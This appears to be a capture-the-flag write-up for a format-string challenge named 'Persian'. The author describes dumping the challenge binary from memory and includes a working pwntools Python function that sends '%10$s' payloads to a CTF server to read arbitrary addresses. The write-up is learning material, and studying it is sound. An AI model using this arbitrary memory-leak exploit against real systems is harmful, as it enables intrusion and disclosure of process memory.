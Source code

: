 
Done.


## Write-Up Persian

This time we can only input two format strings before the program exits. This
was super annoying. There really wasn't anything in particular obvious on the
stack. A couple of things that looked like stack pointers and code pointers. I
tried reading out a couple of strings I found, but didn't find anything useful.
So I started leaked the whole ELF file from the address space. Since it's a
64-bit binary (observable by looking at `%p` modifier) we can start leaking at
`0x400000`. Also there isn't anything that will change between the runs in the
code segment so we can open as many connections as we want.

Unfortunately because every two format strings we have to open a new
connection, so leaking the ELF took ages. Also I had a couple of issues and it
took me quite a while to get a proper leak. In the end I managed to dump a half
broken ELF file, which was loadable in radare, but somehow lacked the names
of the imported functions.

```python
def fmtleaker(addr):
    log.debug("leaking addr 0x{:x}".format(addr))
    vp = None
    for i in range(3):
        try:
            vp = remote("ctf.sharif.edu", 54514, timeout=1)
            pl = "ABCD%10$sDCBA"
            pl += "\x00" * 3
            pl += p64(addr)
            if "\n" in pl:
                log.warning("newline in payload!")
                return None
            vp.sendline(pl)
            x = vp.recv()
            if x:
                f = x.find("ABCD") + 4
                l = x.find("DCBA")
                res = x[f:l]
                if res == "":
                    return "\x00"
                else:
                    return res

            return None
        except KeyboardInterrupt:
            raise
        except EOFError:
            log.debug("got EOF for leaking addr 0x{:x}".format(addr))
            pass
        except Exception:
            log.warning("got exception...", exc_info=sys.exc_info())
        finally:
            if vp:
                vp.close()
    return None


base_addr = 0x400000

leaked = ""

with open("./out.elf") as f:
    leaked = f.read()
```